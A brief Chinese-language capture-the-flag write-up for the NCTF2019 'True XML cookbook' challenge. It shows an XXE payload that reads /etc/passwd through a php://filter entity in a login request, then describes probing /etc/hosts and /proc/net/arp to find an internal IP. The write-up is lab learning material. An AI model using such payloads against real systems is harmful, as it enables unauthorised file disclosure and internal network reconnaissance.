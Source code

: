 # [NCTF2019]True XML cookbook

## 知识点

`xxe`

`内网探测`

## 解题

一个登录框,提示`xml`,登录抓包尝试`xxe`

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY a SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
<user><username>&a;</username><password>123</password></user>
```

发现回显`/etc/passwd`文件内容`base64`编码后的值,读`flag`没有该文件,读一下敏感文件找信息,在`/etc/hosts`没找到内网,在`arp`表`/proc/net/arp`中找到`ip`

![](./img/[NCTF2019]TrueXMLcookbook-1.png)

![](./img/[NCTF2019]TrueXMLcookbook-2.png)

![](./img/[NCTF2019]TrueXMLcookbook-3.png)

